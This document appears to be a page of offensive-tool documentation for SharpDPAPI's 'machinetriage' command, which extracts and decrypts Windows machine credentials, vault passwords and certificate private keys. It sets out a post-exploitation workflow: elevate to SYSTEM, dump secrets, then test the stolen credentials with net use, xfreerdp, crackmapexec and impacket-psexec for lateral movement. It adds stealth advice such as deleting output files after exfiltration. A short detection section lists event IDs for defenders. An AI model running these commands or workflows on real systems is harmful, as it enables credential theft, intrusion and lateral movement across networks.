

## Overview

The **machinetriage** command is a comprehensive wrapper that executes all machine/SYSTEM DPAPI extraction commands in a single run. It automatically extracts machine credentials, vaults, and certificates for complete system-level DPAPI triage.

<Info>
  This is the recommended starting point for machine DPAPI triage. It runs the equivalent of `machinecredentials`, `machinevaults`, and `certificates /machine` commands.
</Info>

## Basic Usage

```bash
# Complete machine DPAPI triage (requires elevation)
SharpDPAPI.exe machinetriage
```

<Warning>
  This command requires **elevation** (Administrator privileges) to:
  - Elevate to SYSTEM via token duplication
  - Retrieve the DPAPI_SYSTEM LSA secret
  - Access all system credential directories
</Warning>

## What Gets Triaged

The machinetriage command executes the following operations:

<Steps>
  <Step title="DPAPI_SYSTEM Retrieval">
    Elevates to SYSTEM and retrieves the DPAPI_SYSTEM LSA secret
  </Step>

  <Step title="Machine Masterkeys">
    Decrypts all machine DPAPI masterkeys using DPAPI_SYSTEM
  </Step>

  <Step title="Machine Credentials">
    Searches system credential directories and decrypts all credential files (scheduled tasks, service accounts, etc.)
  </Step>

  <Step title="Machine Vaults">
    Searches system vault folders and decrypts vault data (web credentials, network passwords, etc.)
  </Step>

  <Step title="Machine Certificates">
    Searches system certificate directories and decrypts certificate private keys
  </Step>
</Steps>

## Execution Flow



## Example Output

```bash
SharpDPAPI.exe machinetriage
```

**Output:**
```
[*] Action: Machine DPAPI Credential Triage

[*] Elevating to SYSTEM via token duplication for LSA secret retrieval
[*] RevertToSelf()

[*] Secret  : DPAPI_SYSTEM
[*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
[*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

[*] SYSTEM master key cache:

{1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
{0bd732d9-c396-4f9a-a69a-508632c05235}:8A9F2C1D3E4B5C6A7D8E9F0A1B2C3D4E5F6A7B8C

[*] Triaging System Credentials

Folder       : C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

  CredFile           : C73A55F92FAE222C18A8989FEA28A1FE

    guidMasterKey    : {1cb83cb5-96cd-445d-baac-49e97f4eeb72}
    description      : Local Credential Data
    LastWritten      : 3/24/2019 7:08:43 PM
    TargetName       : Domain:batch=TaskScheduler:Task:{B745BF75-D62D-4B1C-84ED-F0437214ECED}
    UserName         : TESTLAB\harmj0y
    Credential       : Password123!

[*] Triaging SYSTEM Vaults

[*] Triaging Vault folder: C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

  VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Name               : Web Credentials
    LastWritten      : 11/8/2018 3:45:22 PM
    FriendlyName     : Internet Explorer
    Identity         : admin
    Resource         : https://internal-portal.company.com/
    Authenticator    : AdminP@ss!

[*] Triaging System Certificates

Folder       : C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys

  File               : 9377cea385fa1e5bf7815ee2024d0eea_6c712ef3-1467-4f96-bb5c-6737ba66cfb0

    Master Key GUID  : {f12f57e1-dd41-4daa-88f1-37a64034c7e9}
    Description      : CryptoAPI Private Key
    Thumbprint       : A82ED8207DF6BC16BB65BF6A91E582263E217A4A
    Issuer           : CN=company-CA
    Subject          : CN=server.company.local
    Enhanced Key Usages:
        Client Authentication (1.3.6.1.5.5.7.3.2)
         [!] Certificate is used for client auth!
        Server Authentication (1.3.6.1.5.5.7.3.1)

    [*] Private key recovered (PEM format displayed)
```

<Tip>
  The machinetriage command provides comprehensive output. Redirect to a file for easier analysis: `SharpDPAPI.exe machinetriage > machine_triage.txt`
</Tip>

## What You'll Find

<AccordionGroup>
  <Accordion title="Scheduled Task Credentials">
    - Domain and local account passwords for scheduled tasks
    - Service account credentials
    - Automated job credentials
    - **Look for:** `Domain:batch=TaskScheduler:Task:{GUID}`
  </Accordion>

  <Accordion title="Service Account Passwords">
    - Windows service credentials
    - Application pool identities
    - Background service accounts
    - System process credentials
  </Accordion>

  <Accordion title="RDP Saved Credentials">
    - System-level saved RDP passwords
    - Service account RDP connections
    - Jump box credentials
    - **Look for:** `Domain:target=TERMSRV/HOSTNAME`
  </Accordion>

  <Accordion title="Web Credentials">
    - Internet Explorer saved passwords (system context)
    - Internal portal credentials
    - Administrative web interface passwords
    - Service web authentication
  </Accordion>

  <Accordion title="Network Credentials">
    - SMB share credentials
    - Network resource passwords
    - Domain authentication
    - Generic Windows credentials
  </Accordion>

  <Accordion title="Certificate Private Keys">
    - Machine authentication certificates
    - SSL/TLS server certificates
    - Code signing certificates
    - Client authentication certificates
  </Accordion>
</AccordionGroup>

## When to Use machinetriage

<CardGroup cols={2}>
  <Card title="Initial Compromise" icon="flag">
    First action after gaining admin access to a system
  </Card>
  <Card title="Privilege Escalation" icon="arrow-up">
    Discover privileged credentials for escalation
  </Card>
  <Card title="Lateral Movement" icon="arrows-split-up-and-left">
    Find credentials for moving to other systems
  </Card>
  <Card title="Persistence" icon="clock">
    Identify long-lived service account credentials
  </Card>
</CardGroup>

## Common Scenarios

<AccordionGroup>
  <Accordion title="Post-Exploitation Standard Operating Procedure">
    After gaining admin access:

    ```bash
    # 1. Run machine triage
    SharpDPAPI.exe machinetriage > machine_data.txt

    # 2. Analyze output for:
    # - Scheduled task credentials (often domain admins)
    # - Service account passwords
    # - RDP credentials for lateral movement
    # - Web portal access
    # - Certificate private keys

    # 3. Test discovered credentials
    # 4. Escalate or move laterally
    ```
  </Accordion>

  <Accordion title="Comprehensive System Assessment">
    Full credential sweep:

    ```bash
    # Machine-level data (requires elevation)
    SharpDPAPI.exe machinetriage > machine.txt

    # User-level data (if elevated)
    SharpDPAPI.exe triage /pvk:domain_backup_key.pvk > users.txt

    # SCCM credentials (if SCCM client)
    SharpDPAPI.exe sccm > sccm.txt

    # Analyze all collected data
    ```
  </Accordion>

  <Accordion title="Service Account Discovery Workflow">
    Find and exploit service accounts:

    ```bash
    # 1. Extract all machine credentials
    SharpDPAPI.exe machinetriage

    # 2. Enumerate services
    sc.exe query state= all

    # 3. Correlate service accounts with found credentials
    # 4. Test service account privileges
    # 5. Use for lateral movement or privilege escalation
    ```
  </Accordion>

  <Accordion title="Scheduled Task Enumeration">
    Find privileged task credentials:

    ```bash
    # 1. Run machine triage
    SharpDPAPI.exe machinetriage

    # 2. Look for: Domain:batch=TaskScheduler:Task:{GUID}
    # 3. Extract task GUID from output

    # 4. Find corresponding task
    schtasks /query /fo LIST /v | findstr /i "{GUID}"

    # 5. Identify task purpose and privileges
    ```
  </Accordion>
</AccordionGroup>

## Comparison: User vs Machine Triage

| Aspect | triage (User) | machinetriage (Machine) |
|--------|--------------|------------------------|
| **Target** | User profiles | System profiles |
| **Privilege** | User/Admin | Admin (SYSTEM) |
| **Decryption Key** | Domain backup key / user password | DPAPI_SYSTEM secret |
| **Credentials** | User saved passwords | Service/scheduled task credentials |
| **Vaults** | User web passwords | System web credentials |
| **Certificates** | User certificates | Machine certificates |
| **Typical Value** | User credentials, browser data | Service accounts, system credentials |

<Note>
  For complete coverage, run **both** `triage` and `machinetriage` commands.
</Note>

## Detection Considerations

<Warning>
  Machine triage is a high-privilege, comprehensive operation that should trigger multiple security alerts.
</Warning>

**Host-Based Indicators:**
- Elevation to SYSTEM privileges
- LSA secret retrieval (DPAPI_SYSTEM)
- Bulk access to system credential directories
- Reading system vault files
- Enumeration of machine certificate stores
- High volume of DPAPI operations

**Event Log Indicators:**
```
Event ID: 4624 (Logon)
Logon Type: 3 (Network)
Account Name: SYSTEM

Event ID: 4656/4663 (Object Access)
Object Name: *\SystemProfile\AppData\Local\Microsoft\*
Object Name: *\ServiceProfiles\*\Credentials\*
Object Name: *\Vault\*
Object Name: *\MachineKeys\*

Event ID: 4673 (Privileged Service Called)
Privileges: SeDebugPrivilege, SeImpersonatePrivilege

Event ID: 4688 (Process Creation)
Process Name: SharpDPAPI.exe
```

**Defensive Monitoring:**
- Monitor SYSTEM token impersonation
- Alert on LSA secret access (DPAPI_SYSTEM)
- Track bulk system credential directory access
- Detect system vault enumeration
- Monitor machine certificate access
- Alert on SharpDPAPI or similar tools

## Related Commands

<CardGroup cols={2}>
  <Card title="triage" icon="list-check" href="/ghostpack-docs/SharpDPAPI-mdx/commands/triage">
    Comprehensive user DPAPI triage
  </Card>
  <Card title="machinecredentials" icon="id-card" href="/ghostpack-docs/SharpDPAPI-mdx/commands/machinecredentials">
    Machine credentials only
  </Card>
  <Card title="machinevaults" icon="vault" href="/ghostpack-docs/SharpDPAPI-mdx/commands/machinevaults">
    Machine vaults only
  </Card>
  <Card title="sccm" icon="network-wired" href="/ghostpack-docs/SharpDPAPI-mdx/commands/sccm">
    SCCM NAA credentials
  </Card>
</CardGroup>

## Tips

<Accordion title="Maximizing Value">
  - Run immediately after gaining admin access
  - Focus on scheduled task credentials (often privileged)
  - Test RDP credentials for lateral movement
  - Check certificate EKUs for authentication capabilities
  - Correlate task GUIDs with schtasks output
  - Look for domain accounts vs local accounts
</Accordion>

<Accordion title="OPSEC Considerations">
  - Requires elevation (high visibility)
  - Comprehensive operation generates many events
  - SYSTEM privilege elevation triggers alerts
  - Consider breaking into individual commands if stealth needed
  - Redirect output to file to minimize console activity
  - Clean up output files after exfiltration
</Accordion>

<Accordion title="Troubleshooting">
  **Access denied:**
  - Need Administrator privileges
  - UAC may block elevation
  - Security software may prevent SYSTEM access
  - AV/EDR may terminate process

  **Partial results:**
  - Some components may fail while others succeed
  - Check individual command outputs
  - Verify DPAPI_SYSTEM was retrieved correctly
  - Review error messages for specific failures

  **No data found:**
  - System may not have machine credentials/vaults
  - Scheduled tasks may use group policy credentials
  - Services may not store credentials locally
  - Check ServiceProfiles directories manually
</Accordion>

## Output Analysis Tips

**Prioritize Credentials:**
1. **Domain Accounts** - Highest value, potential lateral movement
2. **Scheduled Task Credentials** - Often privileged accounts
3. **RDP Credentials** - Direct lateral movement
4. **Service Accounts** - May have elevated privileges
5. **Web Portal Credentials** - Internal infrastructure access

**Certificate Value Assessment:**
- **Client Authentication** - Can authenticate to services
- **Code Signing** - Sign executables/scripts
- **Server Authentication** - SSL/TLS impersonation
- **Expired certificates** - Lower value but may still work

**Immediate Actions:**
```bash
# Test domain credentials
net use \\dc.domain.com\C$ /user:DOMAIN\found_account found_password

# Test RDP access
xfreerdp /u:found_account /p:found_password /v:target_server

# Check account privileges
net user found_account /domain
```

## Integration with Other Tools

**PowerShell Analysis:**
```powershell
# Parse machine triage output
$output = Get-Content machine_triage.txt

# Extract usernames
$output | Select-String "UserName" | ForEach-Object {$_ -replace '.*UserName\s+:\s+', ''}

# Extract passwords
$output | Select-String "Credential" | ForEach-Object {$_ -replace '.*Credential\s+:\s+', ''}
```

**Credential Testing:**
```bash
# Test with CrackMapExec
crackmapexec smb targets.txt -u found_user -p found_password

# Test with Impacket
impacket-psexec DOMAIN/found_user:found_password@target
```

## Summary

The **machinetriage** command is your one-stop shop for machine/SYSTEM DPAPI credential extraction. It combines:

- **machinecredentials** - Scheduled tasks, service accounts
- **machinevaults** - Web and network credentials
- **certificates /machine** - Certificate private keys

Use this as your first command after gaining admin access to maximize credential discovery and lateral movement opportunities.
